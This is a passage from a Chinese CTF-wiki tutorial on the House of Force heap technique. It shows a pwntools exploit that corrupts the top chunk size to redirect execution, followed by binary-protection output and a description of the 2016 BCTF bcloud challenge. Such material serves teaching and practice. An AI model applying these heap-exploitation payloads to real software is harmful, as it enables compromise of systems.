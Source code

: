 ```shell
def show():
    r.recvuntil(":")
    r.sendline("1")


magic = 0x400d49
# we must alloc enough size, so as to successfully alloc from fake topchunk
additem(0x30, "ddaa")  # idx 0
payload = 0x30 * 'a'  # idx 0's content
payload += 'a' * 8 + p64(0xffffffffffffffff)  # top chunk's prev_size and size
# modify topchunk's size to -1
modify(0, 0x41, payload)
# top chunk's offset to heap base
offset_to_heap_base = -(0x40 + 0x20)
malloc_size = offset_to_heap_base - 0x8 - 0xf
#gdb.attach(r)
additem(malloc_size, "dada")
additem(0x10, p64(magic) * 2)
print r.recv()
r.interactive()

```

当然，这一题也可以使用 unlink 的方法来做。

## 2016 BCTF bcloud
[题目链接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/house-of-force/2016_bctf_bcloud)

### 基本信息

```shell
➜  2016_bctf_bcloud git:(master) file bcloud   
bcloud: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=96a3843007b1e982e7fa82fbd2e1f2cc598ee04e, stripped
➜  2016_bctf_bcloud git:(master) checksec bcloud  
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/house_of_force/2016_bctf_bcloud/bcloud'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出，这是一个动态链接的 32 位程序，主要开启了 Canary 保护与 NX 保护。

### 基本功能

程序大概是一个云笔记管理系统。首先，程序会进行一些初始化，设置用户的名字，组织，host。程序主要有以下几个功能

1. 新建note，根据用户的输入x申请x+4的空间作为note的大小。
2. 展示note，啥功能也没有。。
3. 编辑note，根据用户指定的 note 编辑对应的内容。
4. 删除note，删除对应note。
5. 同步note，标记所有的note已经被同步。
